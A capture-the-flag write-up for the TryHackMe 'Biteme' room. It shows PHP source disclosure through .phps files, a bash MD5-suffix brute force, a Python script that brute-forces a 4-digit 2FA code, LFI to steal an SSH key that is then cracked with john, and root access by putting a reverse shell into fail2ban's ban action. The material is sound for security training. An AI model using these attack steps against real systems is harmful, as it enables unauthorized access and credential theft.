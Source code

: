 # Biteme: 

![Contest Date: 12.03.2022](https://img.shields.io/badge/Contest%20Date-12.10.2022-lightgrey.svg)

## Description

### Tryhackme Medium Dificulty Room

## Summary

The initial scan shows 2 ports opened: 22,80.
The web server has an 'console' endpoint which is a login page ( which is protected with secureimage for bruteforcing ). 
Looking for the source this caught my attention:

```javascript

 function handleSubmit() {
        eval(function(p,a,c,k,e,r){e=function(c){return c.toString(a)};if(!''.replace(/^/,String)){while(c--)r[e(c)]=k[c]||e(c);k=[function(e){return r[e]}];e=function(){return'\\w+'};c=1};while(c--)if(k[c])p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c]);return p}('0.1(\'2\').3=\'4\';5.6(\'@7 8 9 a b c d e f g h i... j\');',20,20,'document|getElementById|clicked|value|yes|console|log|fred|I|turned|on|php|file|syntax|highlighting|for|you|to|review|jason'.split('|'),0,{}))
        return true;
      }

```

The message can be understood as it is, but it can also be unpacked to be more readable.

Which can be unpacked using <a href="https://matthewfl.com/unPacker.html">Unpacker</a> to :

```javascript

 function handleSubmit() 
	{
	        eval(function(p,a,c,k,e,r)
		{
		e=function(c)
			{
			return c.toString(a)
		};
		if(!''.replace(/^/,String))
			{
			while(c--)r[e(c)]=k[c]||e(c);
			k=[function(e)
				{
				return r[e]
			}
			];
			e=function()
				{
				return'\\w+'
			};
			c=1
		};
		while(c--)if(k[c])p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c]);
		return p
	}
	('0.1(\'2\').3=\'4\';
	5.6(\'@7 8 9 a b c d e f g h i... j\');
	',20,20,'document|getElementById|clicked|value|yes|console|log|fred|I|turned|on|php|file|syntax|highlighting|for|you|to|review|jason'.split('|'),0,
		{
	}
	))
	        return true;
	      
}
```


Anyway, the function can also be called in the console of the page, and it logs the message : 

```
@fred I turned on php file syntax highlighting for you to review... jason
```

Which made me search for <a href="https://www.php.net/manual/en/function.highlight-file.php">highlight_file</a> and found this:

```

Many servers are configured to automatically highlight files with a phps extension. For example, example.phps when viewed will show the syntax highlighted source of the file.

```

Using this we can read the source code of the page by going to `http://<ip>/console/index.phps`

This file includes `functions.php` which is used for authentication and can also be read using the same trick `(functions.phps)`.

This file reveals that the hash used for comparison should end in `001` and used a bash command to bruteforce it.

```bash
while IFS= read -r line; do printf '%s' "$line" |md5sum | awk '{print $1}' | grep -E "001$" && echo $line && break ; done < /usr/share/wordlists/rockyou.txt
```
Now we just need a user.

This again reveals other file , `config.php` , which has the source code also readable , and we find the user encoded in hex.

We decode it and get creds to log in.

After logging in, we now need to brute-force the 2FA code, as we see we have unlimited tries.
Created my script for it:
```python3

import requests

s = requests.Session()

cookies = {'PHPSESSID': '<cookie>','user':'<decoded_user>','pwd':'<found_pass>'}
s.headers.update({'Content-Type': 'application/x-www-form-urlencoded'})


for i in range(9999,5000,-1):
        a = '{:d}'.format(i).zfill(4)
        print(a,end='\r')
        r = s.post('http://<ip>/console/mfa.php',cookies=cookies,data='code={}'.format(a))
        if 'Incorrect code' not in r.text:
                #print(r.text)
                print('[+] Found the code: {}'.format(a))
                break

```

After getting a valid code, we now have lfi, using this to get the /ssh/id_rsa file of jason user which has a passphrase.
Using ss2john, and then using john with rockyou.txt we get the passphrase.

## Privesc 

By running `sudo -l` as user `jason` , we can impersonate user `fred` , which can also restart the `fail2ban` service on the machine.

Running 
```bash
find / -user fred 2>/dev/null
```
we find a file writable by fred, `/etc/fail2ban/action.d/iptables-multiport.conf`

Using this blog regarding <a href="https://grumpygeekwrites.wordpress.com/2021/01/29/privilege-escalation-via-fail2ban/">fail2ban privesc</a>.
After replacing the `banaction` with our reverse shell, we have to restart the service, which user fred can do by running `sudo /bin/systemctl restart fail2ban`
all we have to do now is to trigger the ban action. After reading the config file `/etc/fail2ban/jail.local` we see that it is triggered after 3 retries.

Now what's left for us to do is to try to log in using ssh 3 times, after that we get the shell as root.

